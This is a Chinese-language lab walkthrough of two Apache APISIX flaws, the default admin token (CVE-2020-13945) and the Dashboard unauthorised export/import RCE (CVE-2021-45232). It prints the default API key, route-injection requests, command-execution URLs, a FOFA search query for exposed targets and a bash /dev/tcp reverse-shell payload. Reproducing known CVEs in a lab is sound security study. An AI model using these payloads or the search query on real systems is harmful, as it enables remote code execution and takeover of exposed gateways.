Apache APISIX 默认密钥漏洞（CVE-2020-13945）
简介
介绍
Apache APISIX是一个高性能API网关
API网关，软件术语，两个相互独立的局域网之间通过路由器进行通信，中间的路由被称之为网关。
任何一个应用系统如果需要被其他系统调用，就需要暴露 API，这些 API 代表着一个一个的功能点。如果两个系统中间通信，在系统之间加上一个中介者协助 API 的调用，这个中介者就是 API 网关。那意思就是Apisix是两个系统的一个中介，可以使用这个中间管理系统API。
漏洞成因
在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token edd1c9f034335f136f87ad84b625c8f1，攻击者利用这个Token可以访问到管理员接口，进而通过script参数来插入任意LUA脚本并执行。
漏洞环境
执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：
1 | docker compose up -d |

环境启动后，访问http://your-ip:9080即可查看到默认的404页面。

漏洞复现
1.访问：ip:9080/apisix/admin/routes,如图出现failed to check token

2.抓包，改为post请求方式，添加
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1请求头和poc
1 | POST /apisix/admin/routes HTTP/1.1 |


3.访问刚才添加的router，就可以通过cmd参数执行任意命令：
1 | http://your-ip:9080/attack?cmd=id |

getshell
1.访问地址：http://ip:9080/attack?cmd=cat%20/etc/passwd，进行抓包，将cmd后的值替换为：（bash -c “bash -i >& /dev/tcp/ip/9999 0>&1”）
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2F9999%200%3E%261%22

在kali虚拟机中开启nc监听

Apache APISIX Dashboard API权限绕过导致RCE（CVE-2021-45232）
简介
介绍
影响版本
Apache APISIX Dashboard < 2.10.1
安全版本：Apache APISIX Dashboard >= 2.10.1
FOFA语句：title=”Apache APISIX Dashboard”
漏洞成因
Apache APISIX Dashboard 2.10.1版本前存在两个API/apisix/admin/migrate/export和/apisix/admin/migrate/import，他们没有经过droplet框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。
漏洞环境
执行如下命令启动一个有漏洞的Apache APISIX Dashboard 2.9：
1 | docker compose up -d |

然后访问http://your-ip:9000/即可看到Apache APISIX Dashboard的登录页面。

漏洞复现
未授权接口RCE
那如果没有默认密码或者弱密码的话，就利用未授权接口进行RCE了
1 | /apisix/admin/migrate/export |
这里需要知道这两个接口一个是用来导出配置文件，一个是用来导入配置文件的。
可以使用/apisix/admin/migrate/export直接导出配置文件
可以尝试访问下，当然利用的是未授权接口，自然是不用登录

访问可以看到配置文件信息，这里仔细看，后面多出四个字节，这4个字节其实是配置文件的checksum值
注意的是，这个配置文件的最后4个字符是当前文件的CRC校验码，所以最好通过自动化工具来生成和发送这个利用数据包

添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。
在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：
1 | GET /9gEzWB HTTP/1.1 |
可见，在Header中添加的CMD头中的命令已被执行。
这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。
